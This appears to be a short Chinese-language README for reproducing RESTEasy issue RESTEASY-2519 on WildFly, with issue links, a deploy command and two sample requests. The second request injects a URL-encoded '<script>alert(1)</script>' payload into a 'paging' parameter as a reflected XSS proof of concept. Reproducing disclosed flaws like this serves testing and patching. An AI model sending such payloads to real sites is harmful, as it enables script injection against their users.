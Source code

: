 ## 相关issues

> https://issues.redhat.com/browse/RESTEASY-2519
> [WFLY-7419 Include RESTEasy WADL module - Red Hat Issue Tracker](https://issues.redhat.com/browse/WFLY-7419)


## 部署至wildfly

```bash
[standalone@localhost:9990 /] deploy resteasy-xss-wildfly/target/resteasy-wildfly.war --force
```

## RESTEASY-2519

正常访问：

```bash
$ http "localhost:8080/resteasy-wildfly/rest/users?paging=1"
```

访问有问题的服务：

```bash
$ http "http://localhost:8080/resteasy-wildfly/rest/users?paging=0%2c-1sp137%3Cscript%3Ealert(1)%3C%2fscript%3Emzx4u"
```

